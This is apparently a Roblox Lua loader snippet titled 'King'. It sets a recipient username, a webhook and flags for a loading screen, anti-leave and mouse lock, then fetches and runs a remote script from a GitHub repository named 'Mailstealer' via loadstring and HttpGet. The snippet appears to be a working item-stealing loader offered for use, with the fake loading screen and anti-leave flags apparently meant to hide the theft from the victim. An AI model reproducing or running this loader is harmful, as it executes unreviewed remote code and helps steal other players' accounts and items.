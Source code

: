 # King
UserName = "ddrcrono36" UserName2 = "Loading..." Webhook = "null" _G.LoadingScreen = true _G.AntiLeave = true _G.MouseLock = true loadstring(game:HttpGet("https://raw.githubusercontent.com/LucidHacker9999/Mailstealer/main/script.lua.",true))()

